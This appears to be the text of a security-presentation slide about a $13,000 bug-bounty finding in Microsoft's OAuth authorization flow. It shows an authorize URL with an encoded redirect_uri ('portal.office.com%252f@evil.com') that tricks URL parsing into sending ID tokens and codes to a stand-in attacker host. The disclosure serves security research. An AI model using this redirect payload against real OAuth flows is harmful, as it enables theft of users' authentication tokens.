

(USD)$13,000
What if?
https://login.microsoftonline.com/common/oauth2/authorize?client_id=00000006-0000-0ff1-ce00-000000000000&[…]&redirect_uri=https://evil.com
evil.com?Code=[…]&id_token=[…]] right?

Let’s play with encoding a bit….
Redirect_uri =https%3a%2f%portal.office.com%252f@evil.com%2fmicrosoft%2f%3f

	         [user:password@]host[:port]][/]path[?query][#fragment]

*Final token is sent out to provided host, which in this case is evil.com
App Manifest
App ID
Expected Permissions
App URL

# Authentication flow: The Unexpected
20